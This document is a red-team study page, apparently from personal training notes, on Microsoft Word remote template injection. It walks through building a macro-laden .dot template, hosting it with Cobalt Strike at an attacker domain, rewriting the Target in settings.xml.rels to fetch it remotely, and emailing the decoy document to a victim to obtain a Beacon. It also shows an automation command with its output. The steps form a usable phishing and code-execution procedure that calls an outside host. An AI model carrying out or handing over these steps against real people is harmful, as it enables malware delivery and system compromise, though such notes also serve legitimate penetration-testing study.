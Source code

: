 ```yaml
---
description: 09/02/2025
---
```


# ✅ Remote Template Injection

## What is it?

**Microsoft Word includes a feature** that allows users to create documents linked to **templates**. _<mark style="color:red;">These templates can be stored locally or retrieved from a remote server whenever the document is accessed</mark>_.

Exploiting this functionality, attackers can host malicious Word Template files (`.dotm`) on their servers, embedding harmful macros within them. When a victim opens a Word document, it automatically fetches the malicious template from the attacker's server and executes the embedded code, potentially compromising the victim's system.&#x20;

The key benefit of this technique is that the decoy Word document reaching the victim's system appears harmless.&#x20;

This technique is known as _**Living off the Land**_ (**LotL**).&#x20;

## Creating a Malicious Word Template

1. Open Microsoft Word
2. Create a new blank document and insert a desired macro
3. Save to `C:\Payloads` along with the rest of your payloads as a _**Word 97-2003 Template**_ (`*.dot`) file
4. This will now serve as our "malicious remote template"
5. Use Cobalt Strike to host this file at your attacker-controlled domain, in this case, `http://nickelviper.com/template.dot`
6. Now create a new document from the blank template located in `C:\Users\Attacker\Documents\Custom Office Template`, adding any content you want, then save to `C:\Payloads` as a new `.docx` file.&#x20;
7. Browse to the directory in file explorer, right-click, and select `7-zip` > Open archive
8. Navigate to Word -> \_rels, right-click on `settings.xml.rels` and select **Edit**.&#x20;
9. This is just a small little `XML` file. Scroll until you see the `Target` entry:

```
Target="file:///C:\Users\Attacker\Documents\Custom%20Office%20Templates\Blank%20Template.dotx"
```

10. You're going to notice that it is currently pointing to the template on our local disk from which the document was created. Simply modify this so that it points to the template URL instead:

```
Target="http://nickelviper.com/template.dot"
```

11. Save those changes and email the document to Bob.
12. Once the file is opened, you'll see a warning about macros again, but allowing them to run will execute the macro in the hosted template, giving us a Beacon.

## Automation?

Check out this [Python tool](https://github.com/JohnWoodman/remoteinjector) that automates this process so that we do not have to modify the XML manually.

```
ubuntu@DESKTOP-3BSK7NO ~> python3 remoteinjector.py -w http://nickelviper.com/template.dot /mnt/c/Payloads/document.docx
URL Injected and saved to /mnt/c/Payloads/document_new.docx
```

## Observing Web Log Beacon Activity&#x20;

Inside of Cobalt Strike, you can go to _**View -> Web Log**_, and from there you can view any/all activity of your malicious templates.

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
